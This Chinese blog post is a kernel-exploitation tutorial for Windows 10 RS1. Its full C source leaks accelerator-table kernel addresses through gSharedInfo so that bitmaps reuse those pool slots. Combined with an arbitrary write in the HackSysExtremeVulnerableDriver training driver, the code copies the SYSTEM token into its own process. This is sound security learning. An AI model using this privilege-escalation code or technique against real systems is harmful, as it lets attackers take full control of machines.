

<small>转载请注明出处哦 :  )</small>

## 0x00 前言
哈喽，失踪人口回归了，虽然也没人看 ： )

好久没学习了 :no_mouth:

之前一段时间有些比较重要的事情，现在告一段落了

废话不多说，回归正题

## 0x01 RS1 情况分析
上一篇文章也有提到过，通过 GdiSharedHandleTable 来获取 pvScan0 的地址的利用方式在 RS1 及以后的版本已经行不通了，为什么呢？让我们看一下这段小代码在 RS1 下的运行情况

```c
// test.cpp : Defines the entry point for the console application.
//

#include "stdafx.h"

#include <windows.h>

DWORD64 getpvScan0Address(HBITMAP handle) {
	printf("handle value: 0x%p\n", (DWORD64)handle);

	DWORD64 tebAddr = (DWORD64)NtCurrentTeb();
	printf("tebAddr: 0x%p\n", tebAddr);

	DWORD64 pebAddr = *(PDWORD64)((PUCHAR)tebAddr + 0x60);
	printf("pebAddr: 0x%p\n", pebAddr);

	DWORD64 GdiSharedHandleTableAddr = *(PDWORD64)((PUCHAR)pebAddr + 0x0f8);
	printf("GdiSharedHandleTableAddr: 0x%p\n", GdiSharedHandleTableAddr);

	// GdiSharedHandleTableAddr 是一个指向GDICELL结构体数组的指针
	// GDICELL 结构体 x86 0x10,x64 0x18
	DWORD64 pKernelAddress = GdiSharedHandleTableAddr + ((DWORD64)handle & 0xffff) * 0x18;
	printf("pKernelAddress: 0x%p\n", pKernelAddress);

	DebugBreak();

	DWORD64 surfaceObject = *(PDWORD64)pKernelAddress;
	printf("surfaceObject address: 0x%p\n", surfaceObject);
	// BASEOBJECT 结构体 x86 0x10,x64 0x18
	// pvScan0 在 SURFOBJ 结构体中的偏移 x86 0x20,x64 0x38
	DWORD64 pvScan0Address = surfaceObject + 0x18 + 0x38;
	printf("pvScan0 address: 0x%p\n", pvScan0Address);

	DebugBreak();

	return pvScan0Address;
}

int main()
{
	HBITMAP hBitmap = CreateBitmap(0x10, 0x1, 0x1, 0x8, NULL);
	if (hBitmap == NULL) {
		printf("create bitmap failed\n");
		exit(0);
	}

	getpvScan0Address(hBitmap);

	return 0;
}

```

我们先看一下在第一个 DebugBreak 时的内存情况


可以看到，*(PDWORD64)pKernelAddress 本来应该指向 surfaceObject，即我们创建的 bitmap GDI 对象在换页会话池中的位置，但是看到图中，你有没有发现这个地址异常高？我们看一下这个地址的内存情况


没错，原本应该指向 surfaceObject 的 *(PDWORD64)pKernelAddress 指向了一块无意义的地址。因此 *(PDWORD64)pKernelAddress + 0x18 + 0x38 也不是我们所要的 pvScan0 的地址了，这就是微软在 RS1 下对 bitmap 的利用所进行的缓解措施。

## 0x02 利用其它对象来泄露 bitmap GDI 对象的地址
通过上一小节，我们知道通过 GdiSharedHandleTable -> pKernel -> pvScan0 来获取 pvScan0 的地址的方法已经行不通了，那么我们应该怎么办呢？这时候应该有两种思路

```
1. 寻找其它方法来泄露 bitmap GDI 对象的地址
2. 寻找 bitmap 的替代方案
```

看到这小节的标题应该就可以知道本篇文章采用的是第一种思路了。

我们知道，在 Windows 中存在着 3 种类型的对象，分别为 user object、GDI object、Kernel object，一共有 40 多种对象。

因为没有做过总结我也不敢妄下定论，但是像我们之前用到的 Event 对象属于 Kernel object，存在于非换页池中，bitmap 对象属于 GDI object，存在于换页会话池中，然后就是这次我们要用的 Accelerator table 对象，属于 user object，也存在于换页会话池中。

既然 Accelerator table 对象和 bitmap 对象都存在于换页会话池中，那么假设我们有办法获得每一个 Accelerator table 对象的地址的话，我们是否可以让 bitmap 对象重用我们释放掉的 Accelerator table 对象的空间，这样不就等同于我们获得了 bitmap GDI 对象的地址，也就等同于获得了 pvScan0 的地址了吗？

为此我们需要

```
1. 有办法获得 Accelerator table 对象的地址
2. 让 bitmap 对象重用我们释放掉的 Accelerator table 对象的空间
```


### 获得 Accelerator table 对象的地址

在 user32.dll 模块中有一个全局变量叫做 gSharedInfo，它的结构为


它的第二个变量 aheList 指向一张结构为 USER_HANDLE_ENTRY 的表，USER_HANDLE_ENTRY 的结构为



其中第一个参数 pKernel 就像 GdiSharedHandleTable 中的 pKernel 一样，指向该 user object 在内核空间中的位置，我们可以通过 user object 的 handle 值来索引其在 aheList 中的位置。

因此，我们可以通过 gSharedInfo -> aheList -> pKernel 来获取 user object 在内核空间中的地址

因为 Accelerator table 属于 user object，因此我们可以通过这种方法来获得 Accelerator table 对象的地址

### 让 bitmap 对象重用释放掉的空间

我们知道，如果我们在池中释放掉一块空间，并且之后分配同等大小的空间时，内存管理器是倾向于分配同一块空间给它的。

我们还可以通过类似于 HEVD 非换页池溢出中 pool fengshui 的方法来提高稳定性。（经测试直接分配释放分配就可以了，但是感觉这样做要稳定一些）

## 0x03 RS1 下的替代方法利用

首先直接贴出源码，然后解释一些细节

```c
// bitmapReplace.cpp : Defines the entry point for the console application.
//

#include "stdafx.h"
#include <windows.h>
#include <Psapi.h>

TCHAR driverName[1024];

typedef struct _payload {
	PULONG_PTR what;
	PULONG_PTR where;
} Payload, *PPayload;

VOID readOOB(HBITMAP hManager, HBITMAP hWorker, DWORD64 whereWrite, LPVOID whatWrite, int len)
{
	SetBitmapBits(hManager, len, &whereWrite); // set 写的是 hWorker 的 pvScan0 的值
											   // 通过控制 hWorker 的 pvScan0 的值来决定对哪块地址进行读写
	GetBitmapBits(hWorker, len, whatWrite);
}

VOID writeOOB(HBITMAP hManager, HBITMAP hWorker, DWORD64 whereWrite, LPVOID whatWrite, int len)
{
	SetBitmapBits(hManager, len, &whereWrite);
	SetBitmapBits(hWorker, len, &whatWrite);
}

typedef struct _SERVERINFO {
	DWORD dwSRVIFlags;
	DWORD cHandleEntries;
	WORD wSRVIFlags;
	WORD wRIPPID;
	WORD wRIPError;
} SERVERINFO, *PSERVERINFO;

typedef struct _USER_HANDLE_ENTRY {
	void    *pKernel;
	union
	{
		PVOID pi;
		PVOID pti;
		PVOID ppi;
	};
	BYTE type;
	BYTE flags;
	WORD generation;
} USER_HANDLE_ENTRY, *PUSER_HANDLE_ENTRY;

typedef struct _SHAREDINFO {
	PSERVERINFO psi;
	PUSER_HANDLE_ENTRY aheList;
	ULONG HeEntrySize;
	ULONG_PTR pDispInfo;
	ULONG_PTR ulSharedDelts;
	ULONG_PTR awmControl;
	ULONG_PTR DefWindowMsgs;
	ULONG_PTR DefWindowSpecMsgs;
} SHAREDINFO, *PSHAREDINFO;

DWORD64 getKernelBase() {
	PVOID driversAddress[1024];
	DWORD cbNeeded;
	int cDrivers, i;
	int ntoskrnlKernelBase;

	// find ntoskrnl.exe kernel base
	if (EnumDeviceDrivers(driversAddress, sizeof(driversAddress), &cbNeeded) && cbNeeded < sizeof(driversAddress))
	{

		cDrivers = cbNeeded / sizeof(driversAddress[0]);

		for (i = 0; i < cDrivers; i++)
		{
			if (GetDeviceDriverBaseName(driversAddress[i], driverName, 1024))
			{
				char *lowerName = _strlwr(driverName);

				if (!strncmp(driverName, "nt", 2)) {

					ntoskrnlKernelBase = i;
					break;
				}
				else {
					if (i == (cDrivers - 1)) {
						printf("can't find driver name\n");
						exit(0);
					}
					continue;
				}
			}
			else {
				printf("get device driver name failed\n");
			}
		}
	}
	else
	{
		printf("Enumerate Device Drivers failed\n");
		return 0;
	}

	printf("driver name is: %s\n", driverName);
	return (DWORD64)driversAddress[ntoskrnlKernelBase];
}

DWORD64 getSystemEProcessAddr() {
	DWORD64 ntoskrnlKernelBase = getKernelBase();
	DWORD64 ntoskrnlUserBase = (DWORD64)LoadLibrary(driverName);
	if (ntoskrnlUserBase == NULL) {
		printf("load library failed!\n");
		return 0;
	}
	DWORD64 PsInitialSystemProcessUserSpaceAddr = (DWORD64)GetProcAddress((HMODULE)ntoskrnlUserBase, "PsInitialSystemProcess");
	DWORD64 PsInitialSystemProcessKernelSpaceAddr = ntoskrnlKernelBase + (PsInitialSystemProcessUserSpaceAddr - ntoskrnlUserBase);

	return PsInitialSystemProcessKernelSpaceAddr;
}

int main()
{
	PUSER_HANDLE_ENTRY leakAddr = NULL;
	PSHAREDINFO gSharedInfo = (PSHAREDINFO)GetProcAddress(GetModuleHandle("user32.dll"), "gSharedInfo");
	PUSER_HANDLE_ENTRY handleTable = gSharedInfo->aheList;

	int nSize = 698;

	LPACCEL lPaccel = NULL;
	// LPTR 意为 LMEM_FIXED | LMEM_ZEROINIT，即分配固定内存并初始化为 0
	lPaccel = (LPACCEL)LocalAlloc(LPTR, sizeof(ACCEL) * nSize);

	HACCEL hAccel_1[100] = { 0 };
	HACCEL hAccel_2[7] = { 0 };

	for (int i = 0; i < 100; i++) {
		hAccel_1[i] = CreateAcceleratorTable(lPaccel, nSize);
	}

	for (int i = 0; i < 7; i++) {
		hAccel_2[i] = CreateAcceleratorTable(lPaccel, nSize);
	}

	leakAddr = &handleTable[LOWORD(hAccel_2[2])];
	DWORD64 hManagerAddr = (DWORD64)(leakAddr->pKernel);
	//printf("Manager bitmap addr: 0x%p\n", hManagerAddr);
	DestroyAcceleratorTable(hAccel_2[2]);
	HBITMAP hManagerbitmap = CreateBitmap(0x710, 0x2, 0x1, 0x8, NULL);

	leakAddr = &handleTable[LOWORD(hAccel_2[5])];
	DWORD64 hWorkerAddr = (DWORD64)(leakAddr->pKernel);
	//printf("Worker bitmap addr: 0x%p\n", hWorkerAddr);
	DestroyAcceleratorTable(hAccel_2[5]);
	HBITMAP hWorkerbitmap = CreateBitmap(0x710, 0x2, 0x1, 0x8, NULL);

	for (int i = 0; i < 7; i++) {
		if ((i != 2) && (i != 5)) {
			DestroyAcceleratorTable(hAccel_2[i]);
		}
	}

	for (int i = 0; i < 100; i++) {
		DestroyAcceleratorTable(hAccel_1[i]);
	}

	// ------我是分割线------

	// 到这里我们已经获得 bitmap 的地址了，接下来就跟 RS1 之前一样利用 bitmap 就好了

	DWORD64 ManagerpvScan0Address = hManagerAddr + 0x18 + 0x38;
	printf("Manager pvScan0 Addr: 0x%p\n", ManagerpvScan0Address);
	DWORD64 WorkerpvScan0Address = hWorkerAddr + 0x18 + 0x38;
	printf("Worker pvScan0 Addr: 0x%p\n", WorkerpvScan0Address);

	PPayload payload = NULL;
	// malloc
	payload = (PPayload)HeapAlloc(GetProcessHeap(),
		HEAP_ZERO_MEMORY,
		sizeof(Payload));
	payload->what = (PULONG_PTR)&WorkerpvScan0Address;
	payload->where = (PULONG_PTR)ManagerpvScan0Address;
	DWORD BytesReturned = 0;
	HANDLE hDevice = CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver", 0xC0000000, 0, NULL, 0x3, 0, NULL);
	DeviceIoControl(hDevice, 0x0022200B, (LPVOID)payload, sizeof(Payload), NULL, 0, &BytesReturned, NULL);

	// 已经 overwrite 了，接下来就是利用 SetBitmapBits 和 GetBitmapBits 来读写

	DWORD64 systemEprocessAddr = 0;
	LPVOID lpSystemToken = NULL; // 获取 system 进程的 token
	readOOB(hManagerbitmap, hWorkerbitmap, getSystemEProcessAddr(), &systemEprocessAddr, sizeof(DWORD64));
	readOOB(hManagerbitmap, hWorkerbitmap, (systemEprocessAddr + 0x358), &lpSystemToken, sizeof(DWORD64));

	printf("system eprocess addr: 0x%p\n", systemEprocessAddr);

	// _eprocess + 0x0f8 是 token   0x358
	// _eprocess + 0x0B8 是 ActiveProcessLinks.Flink    0x2f0
	// _eprocess + 0x0b4 是 processid   0x2e8
	// 获取当前进程的 _eprocess
	DWORD64 lpNextEPROCESS = 0;
	LPVOID lpCurrentPID = NULL;
	DWORD64 dwCurrentPID;
	LIST_ENTRY lpNextEntryAddreess = { 0 };
	DWORD64 currentProcessID = GetCurrentProcessId();	// 通过PID判断是否获取到当前进程的地址
	readOOB(hManagerbitmap, hWorkerbitmap, systemEprocessAddr + 0x2f0, &lpNextEntryAddreess, sizeof(LIST_ENTRY));

	do	// 根据PID是否找到当前进程 
	{
		// 获取下一个进程
		lpNextEPROCESS = (DWORD64)((PUCHAR)lpNextEntryAddreess.Flink - 0x2f0);
		// 获取PID
		readOOB(hManagerbitmap, hWorkerbitmap, lpNextEPROCESS + 0x2e8, &lpCurrentPID, sizeof(LPVOID));
		dwCurrentPID = LOWORD(lpCurrentPID);
		readOOB(hManagerbitmap, hWorkerbitmap, lpNextEPROCESS + 0x2f0, &lpNextEntryAddreess, sizeof(LIST_ENTRY));
	} while (dwCurrentPID != currentProcessID);

	DWORD64 currentTokenAddress = (DWORD64)lpNextEPROCESS + 0x358;
	writeOOB(hManagerbitmap, hWorkerbitmap, currentTokenAddress, lpSystemToken, sizeof(LPVOID));
	
	system("whoami\n");

	CloseHandle(hManagerbitmap);
	CloseHandle(hWorkerbitmap);
	
    return 0;
}

```

首先是很重要的一个点，size 的大小

size 的大小不能太小，太小的话重用性极低，即使你用了 pool fengshui 挖洞来期待内存管理器往洞上重用 bitmap 对象，你会发现重用性还是极低

当然太大也不好。所以你会看到 size 的值在 700 左右

我们看一下这段小代码

```c
// test2.cpp : Defines the entry point for the console application.
//

#include "stdafx.h"

#include <Windows.h>

typedef struct _SERVERINFO {
	DWORD dwSRVIFlags;
	DWORD cHandleEntries;
	WORD wSRVIFlags;
	WORD wRIPPID;
	WORD wRIPError;
} SERVERINFO, *PSERVERINFO;

typedef struct _USER_HANDLE_ENTRY {
	void    *pKernel;
	union
	{
		PVOID pi;
		PVOID pti;
		PVOID ppi;
	};
	BYTE type;
	BYTE flags;
	WORD generation;
} USER_HANDLE_ENTRY, *PUSER_HANDLE_ENTRY;

typedef struct _SHAREDINFO {
	PSERVERINFO psi;
	PUSER_HANDLE_ENTRY aheList;
	ULONG HeEntrySize;
	ULONG_PTR pDispInfo;
	ULONG_PTR ulSharedDelts;
	ULONG_PTR awmControl;
	ULONG_PTR DefWindowMsgs;
	ULONG_PTR DefWindowSpecMsgs;
} SHAREDINFO, *PSHAREDINFO;

int main()
{
	PUSER_HANDLE_ENTRY leakAddr = NULL;
	PSHAREDINFO gSharedInfo = (PSHAREDINFO)GetProcAddress(GetModuleHandle("user32.dll"), "gSharedInfo");
	PUSER_HANDLE_ENTRY handleTable = gSharedInfo->aheList;

	int nSize = 100;

	LPACCEL lPaccel = NULL;
	// LPTR 意为 LMEM_FIXED | LMEM_ZEROINIT，即分配固定内存并初始化为 0
	lPaccel = (LPACCEL)LocalAlloc(LPTR, sizeof(ACCEL) * nSize);

	for (int i = 0; i < 10; i++) {
		HACCEL hAccel = CreateAcceleratorTable(lPaccel, nSize);
		leakAddr = &handleTable[LOWORD(hAccel)];
		DWORD64 accelAddr = (DWORD64)(leakAddr->pKernel);
		printf("accel user object addr: 0x%p\n", accelAddr);
		DestroyAcceleratorTable(hAccel);
	}

    return 0;
}

```

再看一下它的执行结果


这糟糕的重用性。  : )

然后就是 CreateBitmap(0x710, 0x2, 0x1, 0x8, NULL) 和 int nSize = 698 创建出来的 bitmap 对象和 Accelerator table 对象的大小正好相等，都是 0x1080 byte，你问我怎么得出来的？试出来的 : )

当然，这个大小在不同的环境下值可能不一样，比如说在 windows 7 x64 下好像就要比在 RS1（windows 10 1607 x64）下要小一点

其它应该没什么好解释的了，获得到地址之后的利用与 bitmap 的利用方式一模一样。

最后，虽然这里用的是 pool fengshui 的方法，但就像上文说到的，直接分配释放分配也可行，比如你把分割线注释往上的代码替换成

```c
	PUSER_HANDLE_ENTRY leakAddr = NULL;
	PSHAREDINFO gSharedInfo = (PSHAREDINFO)GetProcAddress(GetModuleHandle("user32.dll"), "gSharedInfo");
	PUSER_HANDLE_ENTRY handleTable = gSharedInfo->aheList;

	int nSize = 698;

	LPACCEL lPaccel = NULL;
	// LPTR 意为 LMEM_FIXED | LMEM_ZEROINIT，即分配固定内存并初始化为 0
	lPaccel = (LPACCEL)LocalAlloc(LPTR, sizeof(ACCEL) * nSize);

	HACCEL hAccel_1 = NULL;

	hAccel_1 = CreateAcceleratorTable(lPaccel, nSize);

	leakAddr = &handleTable[LOWORD(hAccel_1)];
	DWORD64 hManagerAddr = (DWORD64)(leakAddr->pKernel);
	//printf("Manager bitmap addr: 0x%p\n", hManagerAddr);
	DestroyAcceleratorTable(hAccel_1);
	HBITMAP hManagerbitmap = CreateBitmap(0x710, 0x2, 0x1, 0x8, NULL);

	HACCEL hAccel_2 = NULL;

	hAccel_2 = CreateAcceleratorTable(lPaccel, nSize);

	leakAddr = &handleTable[LOWORD(hAccel_2)];
	DWORD64 hWorkerAddr = (DWORD64)(leakAddr->pKernel);
	//printf("Worker bitmap addr: 0x%p\n", hWorkerAddr);
	DestroyAcceleratorTable(hAccel_2);
	HBITMAP hWorkerbitmap = CreateBitmap(0x710, 0x2, 0x1, 0x8, NULL);
```

执行起来也是没问题的，以下是这种方法的执行结果


可以看到提权成功了

## 0x04 结束语

接下来学习一下在 RS2 下的利用

马上国庆了，要是国庆前没更的话就国庆后再更了，国庆耍一耍，毕竟 70 周年庆嘻嘻，肯定要看看阅兵啊啥的不是，最近说的以前阅兵飞机飞两遍让我挺感概的。

最后，祝祖国越来越强大，国富兵强。 :cn: :cn: :cn: :cn: :cn:

：  )

---

<p align='right'>2019.9.26</p>